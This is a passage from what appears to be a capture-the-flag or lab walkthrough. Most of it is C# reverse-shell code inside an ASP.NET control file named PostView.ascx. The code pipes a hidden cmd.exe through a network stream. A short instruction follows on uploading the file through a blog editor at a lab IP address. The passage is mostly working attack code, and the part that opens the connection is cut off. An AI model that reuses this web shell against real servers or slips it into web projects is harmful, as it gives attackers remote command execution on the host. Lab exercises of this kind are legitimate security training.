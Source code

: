 ```
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

Once we have created our file - PostView.ascx we can follow the instructions above to create a new post and upload the file

```shell
http://10.10.194.58/admin/app/editor/editpost.cshtml
```

